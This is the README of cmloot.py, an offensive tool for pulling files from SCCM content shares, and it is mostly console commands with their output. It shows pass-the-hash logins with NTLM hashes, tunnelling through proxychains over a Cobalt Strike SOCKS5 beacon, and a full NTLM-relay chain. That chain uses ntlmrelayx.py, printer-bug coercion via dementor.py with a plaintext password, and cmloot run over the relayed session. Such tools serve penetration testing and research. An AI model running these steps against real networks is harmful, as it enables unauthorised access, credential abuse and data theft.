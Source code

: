 # cmloot.py

For more information refer to https://www.shelltrail.com/research/cmloot/

## Examples

Pass-the-hash with a user account:

```console
user@adpen1:~/cmloot$ python3 cmloot.py test.local/test-lowpriv@sccm01 -cmlootdownload sccmfiles.txt -extensions CAB -hashes 0:981f69b7d59d4cc73d1ee05b98981e9c
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[+] Extensions to download ['CAB']
[+] Downloaded 1A6D-ccmsetup.cab
[+] Downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
```

Pass-the-hash computer account:

```console
user@adpen1:~/cmloot$ python3 cmloot.py test.local/DEMOMACHINE\$@sccm01 -cmlootdownload sccmfiles.txt -extensions CAB -hashes 0:de22a35159cdf85a91db9a67d08f383a
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[+] Extensions to download ['CAB']
[+] Already downloaded 1A6D-ccmsetup.cab
[+] Already downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
```

Could you use it with proxychains and a Cobalt Strike SOCKS5 beacon? I'm glad you asked...

```console
user@adpen1:~/cmloot$ proxychains python3 cmloot.py TEST.LOCAL/TEST-LOWPRIV@sccm01 -n -cmlootdownload sccmfiles.txt -extensions CAB
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

|S-chain|-<>-127.0.0.1:1080-<><>-100.64.5.221:445-<><>-OK
[+] Extensions to download ['CAB']
[+] Already downloaded 1A6D-ccmsetup.cab
[+] Already downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
```

With NTLM-relaying? Of course!

Start a `ntlmrelay.py` instance:

```console
user@adpen1:~$ ntlmrelayx.py -socks -t 100.64.5.221 -smb2support --no-http-server --no-wcf-server --no-raw-server  
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>  * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off

```

Trigger SMB interaction for example with MS-RPRN FindFirstRprinter
via `dememtor.py`

```console
user@adpen1:~/tools$ python3 dementor.py 100.64.5.25 DEMOMACHINE -u test-lowpriv -p Spettekaka1 -d test.local
[*] connecting to DEMOMACHINE
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

SOCKS sessions is now available from `ntlmrelayx.py`

```console
ntlmrelayx> finished_attacks
smb://TEST\DEMOMACHINE$@100.64.5.221
```

Run `cmloot.py` trough proxychains relaying through `ntlmrelayx.py`:

```console
user@adpen1:~/cmloot$ proxychains python3 cmloot.py TEST/DEMOMACHINE\$@100.64.5.221 -n -cmlootdownload sccmfiles.txt -extensions CAB
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

|S-chain|-<>-127.0.0.1:1080-<><>-100.64.5.221:445-<><>-OK
[+] Extensions to download ['CAB']
[+] Already downloaded 1A6D-ccmsetup.cab
[+] Already downloaded 0BEF-microsoft.webview2.fixedversionruntime.x86.cab
```
